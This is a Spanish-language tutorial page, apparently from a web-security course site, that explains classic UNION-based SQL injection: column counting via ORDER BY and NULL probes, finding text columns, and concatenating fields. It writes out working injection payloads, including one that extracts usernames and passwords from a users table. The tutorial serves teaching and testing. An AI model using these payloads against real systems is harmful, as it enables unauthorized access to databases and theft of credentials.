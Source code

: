 ```yaml
---
layout: default
title: 3. Inyecciones clásicas con datos visibles
permalink: /injection_types/classic
nav_order: 5
has_children: true
---
```


# Inyecciones clásicas con datos visibles

Existen muchas variantes donde afectar en un punto de inyección cambia los resultados, por ejemplo en un **nombre de columna o las condiciones** de la cláusula `WHERE`. Esto extrae datos no previstos por la aplicación dentro de la tabla de la consulta original.

Sin embargo, cuando se quiere obtener información en masa y de otras partes de la base de datos hay técnicas efectivas que se adaptan. La predominante se da con ataques de `UNION`.

## Introducción a ataques UNION

La palabra `UNION` permite ejecutar más de una consulta `SELECT` y ubicar el resultado de una después de la otra, en el orden que se hayan escrito. En el siguiente ejemplo genérico:

```sql
SELECT a, b FROM tabla1 UNION SELECT c, d FROM tabla2
```

Si `tabla1` es:

| a | b |
| :-: | :-: |
| 111 | aaa |
| 222 | bbb |

Y `tabla2` es:

| c | d |
| :-: | :-: |
| 333 | yyy |

La consulta retorna el conjunto:

| col1 | col2 |
| :-: | :-: |
| 111 | aaa |
| 222 | bbb |
| 333 | yyy |

Para que una consulta `UNION` funcione, las **dos condiciones que tienen que cumplirse son**:
1. El **número de columnas** de todas las uniones coincide.
2. Los **tipos de datos** de cada columna deben ser compatibles en la misma posición resultante.

Determinar el número de columnas y tipos de datos de cada una en la consulta SQL original es vital.

## Determinar número de columnas

### ORDER BY

Hay dos formas básicas de determinar el número de columnas de la consulta original. La primera es abusar de la cláusula `ORDER BY`. Si bien lo común es escribir el nombre de la columna por la cual ordenar, también se permite elegir un número de posición o índice. Por ejemplo, asumiendo la siguiente consulta vulnerable:

```sql
SELECT a, b FROM tabla1 WHERE b = 'INYECTABLE AQUÍ'
```

El *payload* `' ORDER BY 1--` se reflejaría así:

```sql
SELECT a, b FROM tabla1 WHERE b = 'XYZ' ORDER BY 1--'
```

La consulta no tiene errores de sintaxis. Así se puede continuar con el número 2, 3, etc. hasta que eventualmente surja un error por pasarse del índice máximo, como:

```
The ORDER BY position number 3 is out of range of the number of items in the select list.
```

Las reacciones de la aplicación pueden ser varias, pero deben indicar un cambio de comportamiento debido a un error. Luego de esto se puede escribir el `UNION` con la cantidad de columnas exactas.

### Valores NULL

La segunda forma es inyectar el `UNION` comenzando por una sola columna, con el valor `NULL`, e incrementar las columnas nulas hasta que ya no se detecten errores:

```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

Un ejemplo de error podría ser:

```
All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.
```

Esto funciona porque `NULL` es convertible a cualquier tipo de dato común. A tener en cuenta: en los DBMS populares esa sintaxis es viable, pero en el caso de Oracle se necesita referir a una tabla que viene con ese DBMS llamada `DUAL`:

```
' UNION SELECT NULL FROM DUAL--
```

## Determinar columnas con tipo de dato útil

El objetivo de SQLi con `UNION` es obtener datos, por lo general va a interesar que sean de tipo texto o *string*. Identificar la mayor cantidad de columnas de texto da flexibilidad para extraer y procesar los resultados. Sabiendo ya el número de columnas exactas, solo es necesario **probar con cualquier texto literal fijo** en cada columna y ver cuáles combinaciones arrojan error, por ejemplo:

```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

Si el tipo de dato no es compatible hay chances de que se genere un error como:

```
Conversion failed when converting the varchar value 'a' to data type int.
```

Esto es análogo para otros tipos de dato si fuera necesario aplicarlo.

## Acumular en una columna

¿Qué sucede si se necesita más de una columna para los datos que se intentan extraer pero la consulta no tiene suficientes columnas de ese tipo?

Suponiendo un escenario donde el `UNION` admite **una sola columna** de tipo texto, pero como atacante se quieren obtener al menos dos columnas, se pueden aplicar operaciones de concatenación (u otras transformaciones) **sobre una única columna**. El siguiente es un ejemplo en Oracle para concatenar las credenciales de un usuario:

```
' UNION SELECT username || '~' || password FROM users--
```

Esto devuelve **una columna** con el valor de dos, separando con el caracter `~` para distinguir comienzo y fin. El operador `||` es la concatenación. Como referencia de operadores válidos (puede diferir en versiones):

| Oracle, PostgreSQL | `'foo'||'bar'` |
| SQL Server | `'foo'+'bar'` |
| MySQL | `'foo' 'bar'` [Con espacio] <br> `CONCAT('foo','bar')` |
